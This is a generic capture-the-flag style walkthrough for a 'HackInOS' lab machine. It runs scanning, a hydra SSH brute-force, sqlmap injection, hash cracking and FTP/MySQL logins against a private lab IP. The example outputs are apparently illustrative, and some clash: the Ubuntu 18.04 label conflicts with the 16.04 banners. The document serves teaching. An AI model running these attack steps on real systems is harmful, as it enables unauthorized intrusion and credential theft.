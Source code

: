 
# HackInOS Walkthrough

This guide provides a step-by-step walkthrough of identifying and exploiting vulnerabilities in a target machine using common penetration testing tools.

---

## Prerequisites

- **VirtualBox** or **VMware** installed on your machine.
- **Target machine (VM)** configured and running.
- **Kali Linux** or any penetration testing OS installed.
- Basic knowledge of Linux and penetration testing tools.
- **Metasploit Framework** installed (if using exploitation).

---

## Step 1: Initial Setup

### Network Configuration

- Set the network of both the target machine and the attacker machine to **NAT Network** or **Host-Only** to ensure they are on the same subnet.

### Target Machine Details

- **Name:** TargetVM (Example)  
- **OS:** Ubuntu 18.04  
- **IP Address:** `192.168.48.133` (Example)  
- **Web Page:** [Target Web](http://example.com)

### Example Target IP:
- **Target IP:** `192.168.48.133`

---

## Step 2: Reconnaissance

### Nmap Scan

#### Command:
```bash
nmap 192.168.48.1/24 -sV
```

#### Example Output:
```
Nmap scan report for 192.168.48.133
Host is up (0.0030s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu) PHP/7.0.32-0ubuntu0.16.04.16)
3306/tcp open  mysql       MySQL 5.7.28
```

### Enum4Linux

#### Command:
```bash
enum4linux -a 192.168.48.133
```

#### Example Output:
```
Known Usernames: admin, root, guest
Workgroup/Domain: WORKGROUP
```

### Nikto Web Scanning

#### Command:
```bash
nikto -h 192.168.48.133
```

#### Example Findings:
- **Outdated Software**: Apache 2.4.18, PHP 7.0.
- **Potential Vulnerabilities**: Directory Traversal on `/uploads/`.

---

## Step 3: Exploitation

### Exploiting SSH Weak Password

#### Command:
```bash
hydra -l admin -P /path/to/rockyou.txt ssh://192.168.48.133
```

#### Example Output:
```
[22][ssh] host: 192.168.48.133  login: admin   password: password123
```

---

### Exploiting Web Application (SQL Injection)

#### Command:
```bash
sqlmap -u "http://192.168.48.133/vulnerable.php?id=1" --dbs
```

#### Example Output:
```
available databases:
[*] information_schema
[*] target_db
```

---

## Step 4: Cracking Password Hashes

### Using John the Ripper

#### Command:
```bash
john --wordlist='/path/to/rockyou.txt' hash.txt
```

#### Example Output:
```
admin:admin123
root:root123
```

---

## Step 5: Accessing Other Services

### FTP Access

#### Command:
```bash
ftp admin@192.168.48.133
```

#### Example Output:
```
Connected to 192.168.48.133.
220 (vsFTPd 3.0.3)
Name (192.168.48.133:admin): admin
Password: password123
```

### MySQL Access

#### Command:
```bash
mysql -u root -p -h 192.168.48.133
```

#### Example Output:
```
Enter password: [root123]
Welcome to the MySQL monitor.
```

---

## Step 6: Cleanup

- Close any open sessions.
- Remove any files created during exploitation.
- Verify no artifacts are left on the target.

---

## Notes

- **Educational Use Only**: Ensure you have proper authorization before testing.
- **Responsible Testing**: Always test in isolated, controlled environments.
